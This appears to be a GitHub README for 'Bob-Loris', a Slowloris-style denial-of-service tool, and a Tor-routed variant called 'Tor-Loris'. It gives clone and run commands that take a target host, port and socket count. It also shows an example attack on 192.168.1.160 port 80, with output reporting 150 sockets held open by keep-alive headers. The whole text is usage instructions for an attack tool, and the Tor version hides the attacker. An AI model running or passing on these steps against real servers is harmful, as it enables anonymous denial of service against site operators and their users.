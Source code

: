 # Bob-Loris 

**Setup**

        $ git clone https://github.com/LukeBob/Bob-loris.git
 
        $ cd Bob-loris
 
        $ chmod 755 Bob-loris.py
 
        $ ./Bob-loris.py -H <host> -P <port> -M <max-sockets Default=150>
    
**Example**
          
        $ ./Bob-loris.py -H 192.168.1.160 -P 80 -M 149          

           ____        _       _            _     
          |  _ \      | |     | |          (_)    
          | |_) | ___ | |__   | | ___  _ __ _ ___ 
          |  _ < / _ \| '_ \  | |/ _ \| '__| / __|
          | |_) | (_) | |_) | | | (_) | |  | \__ \
          |____/ \___/|_.__/  |_|\___/|_|  |_|___/
                                         
                                         
          
         max socket option too low. using Default 150

	   Sending Keep Alive Headers... Socket Count: 150
	   Sending Keep Alive Headers... Socket Count: 150
	   Sending Keep Alive Headers... Socket Count: 150
	   Sending Keep Alive Headers... Socket Count: 150

# Tor-Loris 
 
**Setup**

        $ git clone https://github.com/LukeBob/Bob-loris.git
 
        $ cd Bob-loris
 
        $ chmod 755 Tor-loris.py
 
        $ ./Tor-loris.py -H <host> -P <port> -M <max-sockets Default=150>


